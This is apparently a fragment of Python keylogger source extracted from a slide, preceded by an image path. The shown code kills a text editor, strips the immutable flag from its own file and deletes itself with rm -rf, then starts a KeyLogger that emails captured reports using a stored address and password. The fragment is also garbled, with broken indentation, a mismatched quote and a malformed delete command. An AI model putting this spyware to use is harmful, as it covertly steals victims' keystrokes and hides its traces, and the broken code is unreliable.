

#
 else:
                try:
                    pwd = os.path.abspath(os.getcwd())
                    os.system("cd " + pwd)
                    os.system('pkill leafpad')
                    os.system("chattr -i " +  os.path.basename(__file__))
                    print('File was closed.')
                    os.system("rm -rf" + os.path.basename(__file__))
                except OSError:
                    print('File is close.’)
keylogger = KeyLogger(SEND_REPORT_EVERY, EMAIL_ADDRESS, EMAIL_PASSWORD)
    keylogger.run()